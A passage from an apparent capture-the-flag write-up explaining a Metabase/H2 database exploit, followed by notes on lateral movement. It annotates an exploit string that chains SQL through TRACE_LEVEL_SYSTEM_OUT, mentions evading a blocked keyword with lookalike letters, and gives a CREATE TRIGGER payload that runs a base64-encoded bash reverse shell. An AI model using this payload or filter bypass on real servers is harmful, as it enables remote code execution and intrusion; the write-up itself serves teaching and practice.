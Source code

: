 This step tells us to use `zip` to access the dummy database located at `/app/metabase.jar!/sample-database.db`. Since the database is located inside the `.jar`, we need to unzip it first.
The `!` is used to specify when the resource is located **inside** a compressed archive. Hence, `!/sample-database.db`.

    MODE=MSSQLServer;


`MODE` just tells H2 to run using SQL Server syntax.

        TRACE_LEVEL_SYSTEM_OUT=1\\;

Typically, we cannot chain SQL statements after the database is connected. One option is `INIT` but this doesn't work here as the keyword is blocked (this keyword check can actually be overcome by using letters like Ǐ instead of I). Another is `TRACE_LEVEL_SYSTEM_OUT` which does. Once this is run, we can run arbitrary SQL statements

    CREATE TRIGGER pwnshell 
    BEFORE SELECT ON INFORMATION_SCHEMA.TABLES 

A trigger is a SQL query that will run based on some other query. In this case, before `INFORMATION_SCHEMA.TABLES` is queried, we will run our trigger. We can put any SQL or Java command inside because the `CREATE TRIGGER` [command](https://www.h2database.com/html/commands.html#create_trigger) explicitly allows both SQL and Java commands. It functions similar to `CREATE ALIAS` which has a [similar exploit](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html).

    AS 

    $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,INSERT_YOUR_BASE64_PAYLOAD_HERE}|{base64,-d}|{bash,-i}')\n$$

This translates to:

    $$ --> this is a SQL string block

    //javascript ---> this is a comment

    java.lang.Runtime.getRuntime().exec('bash -c {echo,INSERT_YOUR_BASE64_PAYLOAD_HERE}|{base64,-d}|{bash,-i}')

    $$

The rest of the function is the standard reverse shell called from command line.


### Lateral Movement

We have logged in as `metabase` with limited privileges but not the user. This is simply the account that manages the `metabase` server.

There are only 2 files in the user directory:

    metabase.db.mv.db
    metabase.db.trace.db

Also, `/app` directory contains the Metabase installation file:

    metabase.jar

The `.mv.db` extension is where the data is stored. This is a H2 database which can be opened after downloading the H2 database driver into our local machine. Note that you must use the correct H2 version that was used to create the file.
